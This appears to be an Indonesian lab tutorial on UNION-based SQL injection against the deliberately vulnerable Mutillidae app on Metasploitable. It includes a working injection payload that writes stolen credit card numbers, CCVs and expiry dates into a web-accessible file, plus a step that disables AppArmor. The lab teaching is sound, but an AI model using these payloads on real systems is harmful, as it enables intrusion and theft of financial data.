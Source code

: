 ## Lesson 9 - SQL Injection Union Exploit \#2

### \# Penjelasan Database Union

* **Step 1** : Masuk ke dalam database Mutillidae di Metasploitable OS

```
su - root
mysql -uroot
use owasp10;
show tables;
```
didalam database terdapat tabel _accounts_ dan _credit_cards_. 2 tabel tersebut akan kita union kan. **UNION** adalah operasi penggabungan lebih dari satu hasil **SELECT** dalam SQL

* **Step 2** : Melakukan operasi UNION

Operasi UNION menampilkan di terminal
```
select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;
```
Operasi UNION mencetak di file yang berlokasi di **'/tmp/CCN.csv'**
```
select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';
\! cat /tmp/CCN.csv
```

### \# SQL Injection (Union with Curl)

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Masukkan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/var/www/html/mutillidae/CCN2.txt' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED BY '\n' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **CCN2.txt**

* **Step 5** : Melihat hasil operasi dengan membuka `http://10.151.36.64/mutillidae/CCN2.txt`
